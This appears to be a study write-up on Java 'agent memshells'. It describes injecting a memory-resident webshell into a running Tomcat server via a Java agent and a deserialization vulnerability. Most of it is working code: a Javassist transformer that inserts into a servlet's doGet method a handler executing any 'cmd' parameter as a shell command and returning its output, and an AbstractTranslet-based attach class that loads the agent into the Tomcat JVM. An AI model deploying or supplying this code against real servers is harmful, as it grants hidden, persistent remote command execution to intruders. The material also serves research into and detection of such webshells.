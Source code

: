 # Agent memshell

## Background

### Java agent

Java agent is a instrumentation technology, which allows modifying the bytecode of an unloaded java class or a loaded java class.

For retransformering a loaded java class, we need to write the java agent code and package it into a jar package. Then write a `attach` class to load the jar package and attach it to the running JVM.

### Javassist

Javassist is a java class library for editing java bytecode like writing java.

## Anaysis

Firstly, we need to find a target class which can be hooked and exploited. Then write the corresponding java agent code and package it into a jar package. Upload the jar package to the attacked web server. Finally, execute the prepared `attach` class and load the jar package through deserialization vulnerability.

## Code

    public class AgentMain {
        public static final String ClassName = "com.index.IndexServlet";

        public static void agentmain(String args, Instrumentation inst) {
            inst.addTransformer(new Transformer(), true);
            Class[] loadedClasses = inst.getAllLoadedClasses();
            for (Class loadedClass : loadedClasses) {
                if(loadedClass.getName().equals(ClassName)) {
                    try {
                        inst.retransformClasses(loadedClass);
                    } catch (UnmodifiableClassException e) {
                        e.printStackTrace();
                    }
                }
            }

        }
    }

    public class Transformer implements ClassFileTransformer {
        public static final String ClassName = "com.index.IndexServlet";

        @Override
        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
            className = className.replace("/", ".");
            if(className.equals(ClassName)) {
                System.out.println("Got it");
                ClassPool classPool = ClassPool.getDefault();
                ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
                classPool.insertClassPath(classPath);
                try {
                    CtClass ctClass = classPool.getCtClass(className);
                    CtMethod method = ctClass.getDeclaredMethod("doGet");
                    method.insertBefore("java.lang.System.out.println(\"insert success\");\n" +
                            "if (req.getParameter(\"cmd\") != null) {\n" +
                            "   java.lang.String cmd = req.getParameter(\"cmd\");\n" +
                            "   boolean isLinux = true;\n" +
                            "   java.lang.String osType = java.lang.System.getProperty(\"os.name\");\n" +
                            "   if (osType != null && osType.toLowerCase().contains(\"win\")) {\n" +
                            "       isLinux = false;\n" +
                            "   }\n" +
                            "   java.lang.String[] cmds = isLinux ? new java.lang.String[]{\"sh\", \"-c\", cmd} : new java.lang.String[]{\"cmd.exe\", \"/c\", cmd};\n" +
                            "   java.io.InputStream in = java.lang.Runtime.getRuntime().exec(cmds).getInputStream();\n" +
                            "   java.util.Scanner s = new java.util.Scanner(in).useDelimiter(\"\\\\a\");\n" +
                            "   java.lang.String output = s.hasNext() ? s.next() : \"\";\n" +
                            "   java.io.PrintWriter out = resp.getWriter();\n" +
                            "   out.println(output);\n" +
                            "   out.flush();\n" +
                            "   out.close();\n" +
                            "}\n");
                    byte[] bytes = ctClass.toBytecode();
                    ctClass.detach();
                    return bytes;
                } catch (NotFoundException | CannotCompileException | IOException e) {
                    e.printStackTrace();
                }
            }
            return new byte[0];
        }
    }

    public class EvilAttach extends AbstractTranslet {
        static {
            final String path = "D:\\MemoryShellStudy\\EvilAgent\\target\\EvilAgent-1.0-SNAPSHOT-jar-with-dependencies.jar";
            File file = new File(System.getProperty("java.home").replace("jre", "lib") + File.separator + "tools.jar");

            try {
                URL url = file.toURI().toURL();
                System.out.println(url);
                URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
                Class<?> VirtualMachine = urlClassLoader.loadClass("com.sun.tools.attach.VirtualMachine");
                Class<?> VirtualMachineDescriptor = urlClassLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
                Method listMethod = VirtualMachine.getDeclaredMethod("list", null);
                List list = (List) listMethod.invoke(VirtualMachine, null);

                for (Object o : list) {
                    Method displayName = VirtualMachineDescriptor.getDeclaredMethod("displayName");
                    String name = (String) displayName.invoke(o, null);
                    System.out.println(name);
                    if(name.contains("org.apache.catalina.startup.Bootstrap")) {
                        Method attach = VirtualMachine.getDeclaredMethod("attach", VirtualMachineDescriptor);
                        Object vm = attach.invoke(VirtualMachine, o);
                        Method loadAgent = VirtualMachine.getDeclaredMethod("loadAgent", String.class);
                        loadAgent.invoke(vm, path);
                        System.out.println("inject success");
                        Method detach = VirtualMachine.getDeclaredMethod("detach", null);
                        detach.invoke(vm, null);
                    }
                }
            } catch (MalformedURLException | ClassNotFoundException | InvocationTargetException | NoSuchMethodException | IllegalAccessException e) {
                e.printStackTrace();
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

        }
    }
